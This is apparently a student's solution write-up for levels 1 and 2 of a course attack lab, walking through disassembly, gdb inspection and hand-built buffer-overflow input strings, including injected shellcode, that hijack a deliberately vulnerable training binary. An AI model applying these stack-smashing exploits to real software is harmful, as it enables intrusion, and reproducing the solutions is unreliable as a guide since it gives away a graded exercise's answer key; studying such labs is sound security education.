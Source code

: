 # Attack lab

By Adrian Borup (adbo@itu.dk).

## Part I: Code Injection Attacks

### Level 1

We start by inspecting the assembly to find the address of the `touch1` function:

```asm
$ objdump -D ctarget | grep -A 14 "<touch1>"
0000000000402698 <touch1>:
  402698:       f3 0f 1e fa             endbr64
  40269c:       50                      push   %rax
  40269d:       58                      pop    %rax
  40269e:       48 83 ec 08             sub    $0x8,%rsp
  4026a2:       c7 05 50 82 0f 00 01    movl   $0x1,0xf8250(%rip)        # 4fa8fc <vlevel>
  4026a9:       00 00 00
  4026ac:       48 8d 3d 58 5c 0c 00    lea    0xc5c58(%rip),%rdi        # 4c830b <_IO_stdin_used+0x30b>
  4026b3:       e8 a8 a2 01 00          callq  41c960 <_IO_puts>
  4026b8:       bf 01 00 00 00          mov    $0x1,%edi
  4026bd:       e8 f4 04 00 00          callq  402bb6 <validate>
  4026c2:       bf 00 00 00 00          mov    $0x0,%edi
  4026c7:       e8 64 fb 00 00          callq  412230 <exit>

00000000004026cc <touch2>:
```

Our goal is now to overwrite the return address after `getbuf` so it points to `0x402698`. We want to know the size of the stack frame so we can overwrite the return address. Let's check out `getbuf`'s assembly code:

```asm
$ objdump -D ctarget | grep -A 9 -m 1 "<getbuf>"
000000000040267e <getbuf>:
  40267e:       f3 0f 1e fa             endbr64
  402682:       48 83 ec 28             sub    $0x28,%rsp
  402686:       48 89 e7                mov    %rsp,%rdi
  402689:       e8 b5 02 00 00          callq  402943 <Gets>
  40268e:       b8 01 00 00 00          mov    $0x1,%eax
  402693:       48 83 c4 28             add    $0x28,%rsp
  402697:       c3                      retq

0000000000402698 <touch1>:
```

At instruction `0x40267e`, we can see an integer constant `$0x28`, which is 40 in base 10. The return address, `%rsp`, is decremented with these 40 bytes - therefore our stack frame must be 40 bytes in size. We can confirm this by seeing if the program starts to misbehave between 39 and 40 bytes of input:

```sh
# File contains 39 bytes:
$ cat inp.txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00

# Pipe 39 bytes into the program:
$ cat inp.txt | ./hex2raw | ./ctarget
Cookie: 0x5d21660e
Type string:No exploit.  Getbuf returned 0x1
Normal return

# Pipe one more byte into the program:
$ (cat inp.txt; echo " 00") | ./hex2raw | ./ctarget
Cookie: 0x5d21660e
Type string:Ouch!: You caused a segmentation fault!
Better luck next time
FAILED
```

Yup! Boom. The segfault happens when we feed 40 bytes. Therefore, let's try to add another word (8 bytes) to the input so those bytes will overwrite the return address:

```diff
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
+ 98 26 40 00 00 00 00 00
```

Here we've inserted the address of `touch1` (with the bytes reversed to obtain little-endian order). By feeding this to the vulnerable program, we see that the return address is indeed overwritten, and the instructions from `touch1` are executed:

```sh
$ ./hex2raw < inp.txt | ./ctarget
Cookie: 0x5d21660e
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

### Level 2

First, let's locate `touch2`, and let's see what our unique cookie looks like:

```asm
$ objdump -D ctarget | grep -A 5 "<touch2>"
00000000004026cc <touch2>:
  4026cc:       f3 0f 1e fa             endbr64
  4026d0:       50                      push   %rax
  4026d1:       58                      pop    %rax
  4026d2:       48 83 ec 08             sub    $0x8,%rsp
  4026d6:       89 fa                   mov    %edi,%edx

$ cat cookie.txt
0x5d21660e 
```

Excellent - we can now write our exploit code. We'll do it in raw assembly:

```asm
# The %rdi register holds the first function argument. We write our cookie value
# into that register, so touch2 will receive it as the val argument.
mov $0x5d21660e,%rdi

# We push a return address onto the stack - in this case the address of touch2
push $0x4026cc

# Return, which will pop the stack and go to that address
ret
```

To obtain the byte representation of our exploit code, we save the above code in `exploit.s` and compile it:

```asm
$ gcc -c exploit.s && objdump -D exploit.o

exploit.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 0e 66 21 5d    mov    $0x5d21660e,%rdi
   7:   68 cc 26 40 00          pushq  $0x4026cc
   c:   c3                      retq
```

One last thing before we write our buffer overflow input: we need the address of our exploit code. First, let's overwrite the stack frame with these 39 bytes of input:

```sh
$ cat test.txt
12 34 56 78 90 ab cd ef
11 11 11 11 22 22 22 22
33 33 33 33 44 44 44 44
55 55 55 55 66 66 66 66
77 77 77 77 88 88 88

$ cat test.txt | ./hex2raw > test.bin
```

Then we can use GDB to inspect the values of the memory in the stack frame. From earlier, we know that `0x40268e` is the address of the instruction after `Gets` returns in `getbuf` (i.e. when our buffer overflow should have completed).

```sh
$ gdb ./ctarget
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04.1) 9.2
...
Reading symbols from ./ctarget...

# Set breakpoint in getbuf right after Gets returns
(gdb) b *0x40268e
Breakpoint 1 at 0x40268e: file buf.c, line 15.

# Run the program with the above input
(gdb) r < test.bin
Starting program: /home/stud/adbo/exercises/22-Lab2-attacklab/target22/ctarget < test.bin
Cookie: 0x5d21660e

Breakpoint 1, getbuf () at buf.c:15
15      buf.c: No such file or directory.

# Starting from the stack pointer (register %rsp - the top of the stack), show
# the address and value of the next 48 bytes. That is, the stack frame and the
# following return address.
(gdb) x/48bx $rsp
0x55609288:     0x12    0x34    0x56    0x78    0x90    0xab    0xcd    0xef
0x55609290:     0x11    0x11    0x11    0x11    0x22    0x22    0x22    0x22
0x55609298:     0x33    0x33    0x33    0x33    0x44    0x44    0x44    0x44
0x556092a0:     0x55    0x55    0x55    0x55    0x66    0x66    0x66    0x66
0x556092a8:     0x77    0x77    0x77    0x77    0x88    0x88    0x88    0x00
0x556092b0:     0x79    0x28    0x40    0x00    0x00    0x00    0x00    0x00
```

We can see that our input bytes start at address `0x55609288`. The last line shows the address (`0x402879`) of the original instruction that we would normally return to - but we will overwrite this address with the address to our exploit code instead.

We can now create our final buffer overflow input:

```hex
$ cat inp.txt
/* Exploit code */
48 c7 c7 0e 66 21 5d    /* mov    $0x5d21660e,%rdi */
68 cc 26 40 00          /* pushq  $0x4026cc */
c3                      /* retq */

/* Padding */
00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

/* Address of our exploit code */
88 92 60 55 00 00 00 00
```

And feed it to the vulnerable program:

```sh
$ ./hex2raw < inp.txt | ./ctarget
Cookie: 0x5d21660e
Type string:Touch2!: You called touch2(0x5d21660e)
Valid solution for level 2 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
